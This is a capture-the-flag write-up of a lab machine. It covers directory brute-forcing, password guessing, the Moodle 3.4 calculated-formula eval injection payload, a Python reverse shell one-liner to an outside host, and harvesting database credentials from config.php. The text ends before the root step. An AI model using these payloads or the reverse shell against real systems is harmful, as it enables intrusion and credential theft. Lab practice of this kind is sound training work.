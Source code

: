 Okay, first of all - we do some info gathering. Using nmap says we have an apache httpd server and nothing more. Searching through the website reveals nothing (checking source, running nikto and checking cookies/http headers).
From here I was stuck, so I went to the forum to check for some hints - it seems like there is a corrupted file. Obviously, it should be in /images folder because it contains most of the files. Checking every photo will be time consuming, but this is the only way (or to write a small script).
```
root@kali:~/Downloads# strings 5.png
Hi Servicedesk,
I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.
Could you guys figure out what the last charachter is, or just reset it?
Thanks,
Giovanni
```
Now, we should find a login page. I used dirb to run again a common word list and found a few interesting directories, one of them is obviously the primary suspect (as a student, I can't believe I didn't think about it):
```
root@kali:~/Downloads# dirb http://10.10.10.153

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Mar  5 14:16:34 2019
URL_BASE: http://10.10.10.153/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.153/ ----
==> DIRECTORY: http://10.10.10.153/css/                                                                               
==> DIRECTORY: http://10.10.10.153/fonts/                                                                             
==> DIRECTORY: http://10.10.10.153/images/                                                                            
+ http://10.10.10.153/index.html (CODE:200|SIZE:8028)                                                                 
==> DIRECTORY: http://10.10.10.153/javascript/                                                                        
==> DIRECTORY: http://10.10.10.153/js/                                                                                
==> DIRECTORY: http://10.10.10.153/manual/                                                                            
==> DIRECTORY: http://10.10.10.153/moodle/                                                                            
+ http://10.10.10.153/phpmyadmin (CODE:403|SIZE:297)                                                                  
+ http://10.10.10.153/server-status (CODE:403|SIZE:300) 
```
Now we want to login to Giovanni's user.
we immidiately can see that the teachers name is Giovanni Chhatta therefor it's the login name. Now, we know we have a missing char at the end of the pass, so let's use bruteforce with Hydra to find it quickly. I created a password file with python:
```
import string
password="Th4C00lTheacha"
for x in string.printable:
    print(password+x)
```
and then used it to crack the pass with Hydra. Unfortunately, it didn't work, Hydra only produced false-positives. I decided to write my own brute forcer, you can check it inside the files. You can crack it with hydra, but I didn't want to do that when I can write a quick script.

Now that we are in the system, what do we do? Obviously, we look for an exploit. Googling a bit helps to find the version of our moodle which is 3.4 (click on "Moodle Docs for this page"). I must admit, I tried several exploits until I found this one:
https://blog.ripstech.com/2018/moodle-remote-code-execution/#substitute_variables

First of all, read it. It's interesting + let's you know what you are going to do. Now that we know we need to open a calculated question, we input the calculated formula "/*{a*/`$_GET[0]`;//{x}}". It gives us the ability to execute eval() via the GET request. Instead of writing /etc/passwd (which you probably tried and failed, because we cannot write to folders with our current user), we want to get a remote shell. Now, let me save you some time - we want interactive shell, thus netcat won't we a good option. I used python shell:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("**10.0.0.1**",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
As seen in the video, we append the shell at the end of the query as follows: `&0=(OUR_SHELL)`. 

Okay, so now we have a shell and the current user is /var/wwww and we cannot read giovanni's folder. We need to find some way to log into his account (this is why I wrote we need interactive shell). I personally know that usually important information is stored in config.php, but googling for configuration file for moodle, or doing some enumeration like searching for 'root' keywords in file will help us to find some tail. Opening config.php in /moodle folder reveals credentials for mariadb. 
We login to it and get our information:
```
$ mysql -h localhost -P 3306 -u root -p*** moodle
show tables;
Tables_in_moodle
.
.
.
```
we are interested in mdl_user_password_history. For some reason, the output wasn't on the screen so I had to write it into a file, so I reconnected:
```
$ mysql -h localhost -P 3306 -u root -p**** moodle > output
select * from mdl_user_password_history;
\q
$ cat output
...
```
We notice Giovannibak with a hash (easy to crack). This is the password for Giovanni's account, we almost have the user.
Now we want to upgrade our shell in order to login to his user:
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@teacher:/var/www/html/moodle/question$ 
www-data@teacher:/var/www/html/moodle/question$ su giovanni
su giovanni
Password: ****
giovanni@teacher:/var/www/html/moodle/question$ cd ~
cd ~
giovanni@teacher:~$ ls
ls
user.txt  work
```

Next to root:


